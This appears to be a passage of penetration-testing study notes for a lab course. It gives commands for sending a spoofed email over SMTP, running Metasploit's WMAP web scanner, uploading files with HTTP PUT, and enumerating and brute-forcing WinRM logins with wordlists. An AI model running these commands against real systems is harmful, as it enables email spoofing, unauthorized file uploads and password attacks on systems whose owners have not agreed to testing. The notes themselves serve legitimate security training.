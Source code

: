 > This how we can connect to SMTP service using telnet and send a fake mail to root user. There is a dot(.) in the last line which indicates the termination of data.

```Shell
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s demo.ine.local -u Fakemail -m "Hi root, a fake from admin" -o tls=no
```

> Sending mail through command line.

#### WMAP MSF Plugin commands:

`load wmap`: To load the plugin
`wmap_sites -a <IP>`: Is can be used to add a site.
`wmap_sites -l`: Is used to list out all the available sites.
`wmap_targets -t <URL>`: Is used to add a target URL.
`wmap_targets -l`: Is used to list out all the targets that are available.
`wmap_run -t`: This will show all enabled modules.
`wmap_run -e`: This will start running the vuln. scan.
`wmap_vuln -l`: This lists all the vulnerabilities that the scan was able to find.

```msfconsole
use auxiliary/http/options
show options
set RHOSTS <ip-address>
run
```

> This module tells us if the web-application allows different methods like `GET`, `HEAD`, `POST`, and `OPTIONS`.

```msfconsole
use auxiliary/http/http_put
show options
set RHOSTS <ip-address>
set PATH /<directory>/
run
```

> This can be used to upload a file on to the specified directory.

#### Exploiting WinRM

***DEFAULT PORT `5986`***

```msfconsole
search type:auxiliary winrm
use auxiliary/winrm/winrm_auth_methods
set RHOSTS <ip-address>
run
```

> This will tell that whether `WinRM` is running on the machine and if it running than what authentication methods are being used.

```msfconsole
use auxiliary/winrm/winrm_login
set RHOST <ip-address>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
Set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```
